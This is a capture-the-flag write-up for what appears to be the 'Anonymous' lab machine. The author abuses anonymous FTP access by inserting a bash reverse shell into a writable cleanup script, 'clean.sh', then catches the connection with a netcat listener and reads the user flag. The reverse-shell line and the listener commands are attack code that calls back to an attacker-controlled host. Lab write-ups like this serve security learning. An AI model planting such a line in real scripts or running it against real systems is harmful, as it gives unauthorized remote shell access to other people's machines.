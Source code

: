 Ok, yes, the anonymous login should be removed from the FTP-Server. Something bad can happend. :)

Now lets focus on the "clean.sh" Maybe we can add a reverse shell in the bash script. 
We cann add a bash reverse-shell into the file. 

Found on Pentest-Monkey a reverse-shell witch should work:

[Reverse Shell Cheat Sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet "Reverse-Shell")

Added the code in line 8 of the "clean.sh" script. 
Change the IP-Address to my local address and a port. 

```sh
bat clean.sh         
───────┬────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: clean.sh
───────┼────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ #!/bin/bash
   2   │ 
   3   │ tmp_files=0
   4   │ echo $tmp_files
   5   │ if [ $tmp_files=0 ]
   6   │ then
   7   │         echo "Running cleanup script:  nothing to delete" >> /var/ftp/scripts/removed_files.log
   8   │         bash -i >& /dev/tcp/1*.1*.3.1**/8080 0>&1
   9   │ else
  10   │     for LINE in $tmp_files; do
  11   │         rm -rf /tmp/$LINE && echo "$(date) | Removed file /tmp/$LINE" >> /var/ftp/scripts/removed_files
       │ .log;done
  12   │ fi
```

In another terminal i started a Netcat Listener on port 8080: "nc -lnvp 8080"

```sh
nc -lnvp 8080
listening on [any] 8080 ...
```
and after a few seconds i got a shell on the target:

```sh
nc -lnvp 8080
listening on [any] 8080 ...
connect to [10.11.3.139] from (UNKNOWN) [10.10.195.20] 53182
bash: cannot set terminal process group (2584): Inappropriate ioctl for device
bash: no job control in this shell
namelessone@anonymous:~$
```

In this shell we can now read the User-flag. 

```sh
namelessone@anonymous:~$ ls
ls
pics
user.txt
namelessone@anonymous:~$ cat user.txt
cat user.txt
9******************************0
```
